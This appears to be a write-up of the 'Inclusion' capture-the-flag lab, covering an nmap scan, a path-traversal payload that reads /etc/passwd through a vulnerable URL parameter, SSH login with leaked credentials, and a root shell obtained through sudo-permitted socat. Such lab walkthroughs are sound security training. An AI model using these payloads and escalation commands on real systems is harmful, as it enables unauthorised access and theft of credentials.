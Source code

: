 # Inclusion

## nmap scan

nmap -sC -sV -A -oN ./nmap/initial -v IP

open ports:
>			22 SSH
>			80 HTTP

# Task 2

## perform local file inclusion attack
	
1. since we know a local file inclusion is possible (due to the rooms entire theme being lfi) we are going to check common files such as /etc/passwd

	1. we do this by changing the name variable in the url to the desired location e.g from
	
	`http://10.10.54.151/article?name=lfiattack` to `http://10.10.54.151/article?name=../../../etc/passwd` 

	we could also do the same with any file we wish to access, even the root and user flags

base url -> `http://10.10.174.11/article?name=lfiattack`

there is a username and password set commented out, use the credentials to ssh onto the machine, as we noted with the nmap scan earlier ssh is open

2. ssh falconfeast@IP

`enter the password found when prompted`

3. run the following commands to get the user flag
```
	ls -la (to display all files)
	cat user.txt (as we now know user.txt is in current directory)
```


3. using sudo -l we find that we can run socat as root, use gtfobins to get a root shell
```
	Matching Defaults entries for falconfeast on inclusion:
    	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User falconfeast may run the following commands on inclusion:
    	(root) NOPASSWD: /usr/bin/socat
```
	1. go to the gtfobins site and search socat, we find the command to use with sudo we run it and we get a root shell
```
	sudo /usr/bin/socat stdin exec:/bin/sh
```

4. run the following commands to find the root flag
```
find / -type f -name "root.txt" 2>/dev/null 
cat root/root.txt
```

# OPTIONAL
if you want to you could stabilise your shell here, i reccomend doing this if you are new as it is useful to know how to do
 
1. which python3 (used to chek if python is on the box)

2. python3 -c 'import pty;pty.spawn("/bin/bash")'

3. export TERM=xterm

4. ctrl-z (backgrounds the shell)

5. stty raw -echo; fg

you will now have a fully functional shell

